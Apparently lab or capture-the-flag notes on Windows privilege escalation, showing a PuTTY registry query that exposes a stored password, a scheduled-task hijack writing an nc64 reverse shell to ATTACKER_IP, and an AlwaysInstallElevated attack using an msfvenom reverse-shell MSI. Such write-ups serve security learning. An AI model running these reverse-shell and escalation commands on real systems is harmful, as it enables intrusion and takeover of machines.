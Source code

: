 ```bash
CoolPass2021

Time Running: 0:8
```

Manual Command:

```bash
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

> CoolPass2021

## Other Quick Wins
---

### Scheduled Tasks

```bash
schtasks /query /tn vulntask /fo list /v
icacls c:\tasks\schtask.bat
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
rlwrap -r -f . nc -nlvp 4444
schtasks /run /tn vulntask
```

### AlwaysInstallElevated

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKING_10.10.122.116 LPORT=LOCAL_PORT -f msi -o malicious.msi

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Questions

##### What is the taskusr1 flag?

> Refers: https://mayfly277.github.io/posts/GOADv2-pwning-part8/

PrivescCheck result (So much faster than winpeas):

![](../../attachment/409456e16dd254ca3c4aa33bd10f2ee9.png)
